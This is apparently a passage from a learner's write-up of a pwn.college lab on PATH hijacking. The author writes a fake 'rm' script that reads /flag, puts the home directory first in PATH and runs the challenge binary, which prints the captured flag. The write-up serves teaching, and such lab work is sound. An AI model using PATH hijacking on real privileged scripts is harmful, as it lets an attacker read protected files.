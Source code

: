 4. I tried to list commands starting with 'ca' to see if any important commands are present:
   ```bash
   hacker@path~hijacking-commands:~$ /bin/ca
   cal                 callgrind_control   cat                 cautious-launcher
   calendar            captoinfo           catchsegv
   callgrind_annotate  cas_help            catman
   ```

5. I used `cat` to check if it works:
   ```bash
   hacker@path~hijacking-commands:~$ /bin/cat
   ^C
   ```

6. I created a custom `rm` script that displays the flag:
   ```bash
   hacker@path~hijacking-commands:~$ nano rm
   ```

   Content of the `rm` script:
   ```bash
   /bin/cat /flag
   ```

7. I made the script executable:
   ```bash
   hacker@path~hijacking-commands:~$ chmod u+x rm
   ```

8. I modified the PATH to include my current directory first:
   ```bash
   hacker@path~hijacking-commands:~$ PATH="/home/hacker/"
   ```

9. I tested if the system can find `cat` with the new PATH:
   ```bash
   hacker@path~hijacking-commands:~$ cat "$PATH"
   bash: cat: command not found
   ```

10. Finally, I executed the challenge script to get the flag:
    ```bash
    hacker@path~hijacking-commands:~$ /challenge/run
    Trying to remove /flag...
    pwn.college{gd3S0MUGmgFkaQFtfEMOHFu3Izf.QX3cjM1wCO2kjNzEzW}
    ```

## What I learned

- The **PATH variable** determines the order in which directories are searched for commands.
- Placing a custom executable in a directory that appears first in PATH allows it to override system commands.
- Creating an executable script with the same name as a system command can intercept its behavior.

## References
- [pwn.college](https://pwn.college/linux-luminarium/path/) - Pondering PATH / Hijacking Commands module page.